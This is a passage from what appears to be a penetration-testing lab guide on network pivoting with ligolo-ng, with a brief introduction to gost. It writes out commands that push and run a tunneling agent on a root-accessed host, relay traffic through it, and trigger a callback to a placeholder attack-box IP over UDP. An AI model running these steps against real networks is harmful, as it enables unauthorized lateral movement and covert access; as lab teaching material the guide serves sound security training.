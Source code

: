 #### Push and execute binary

```
[[ Ligolo~SecondAgent ]]*
cd tools/ligolo-ng
	#Let us double-check that we are trying to access nginx using our ligolo interface
ip route get 10.X.20.221
scp agent root@nginx:
ssh root@nginx 'chmod +x agent'
ssh root@nginx './agent -connect lamp:11601 -accept-fingerprint <FINGERPRINT_FROM_THE_SERVER>'
```

#### Use the second agent

```
[[ Ligolo~Server ]]
	#From our first session, we stop the tunnel
stop
	#Next we move to our new session
session
    #Pick the new session
	#And restart the tunnel
start
```

#### Call in from second agent

Lets try to initiate a callback again to make sure we are calling from nginx instead of lamp.

```
[[ Ligolo~Callme ]]
lsof -i udp:4444
	socat -u udp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 udp
cat /tmp/PROOF
```

#### Clean up

```
[[ Ligolo~Server ]]
interface_list
interface_delete --name ligolo
interface_list
exit
```

## gost


Gost is probably the easiest way to just throw up a binary and have it start doing socks proxying, but it is also like socat in the amount of strange combinations of things that it can do. Let's just do a smattering of the possibilities.
